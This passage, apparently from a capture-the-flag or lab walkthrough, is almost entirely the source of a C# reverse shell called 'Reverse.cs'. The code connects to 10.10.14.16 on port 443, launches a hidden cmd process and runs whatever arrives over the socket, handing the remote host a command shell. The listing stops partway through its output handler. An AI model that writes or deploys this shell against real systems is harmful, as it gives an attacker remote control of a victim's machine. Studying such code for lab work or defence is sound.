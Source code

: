 ```bash
nvim reverse
```

> **Reverse.cs**

```c
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace Reverse
{
 public class Run
 {
  static StreamWriter streamWriter;

  public Run()
  {
   using(TcpClient client = new TcpClient("10.10.14.16", 443))
   {
    using(Stream stream = client.GetStream())
    {
     using(StreamReader rdr = new StreamReader(stream))
     {
      streamWriter = new StreamWriter(stream);

      StringBuilder strInput = new StringBuilder();

      Process p = new Process();
      p.StartInfo.FileName = "cmd";
      p.StartInfo.CreateNoWindow = true;
      p.StartInfo.UseShellExecute = false;
      p.StartInfo.RedirectStandardOutput = true;
      p.StartInfo.RedirectStandardInput = true;
      p.StartInfo.RedirectStandardError = true;
      p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
      p.Start();
      p.BeginOutputReadLine();

      while(true)
      {
       strInput.Append(rdr.ReadLine());
       //strInput.Append("\n");
       p.StandardInput.WriteLine(strInput);
       strInput.Remove(0, strInput.Length);
      }
     }
    }
   }
  }

  public static void Main(string[] args)
  {
   new Run();
  }

  private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();
```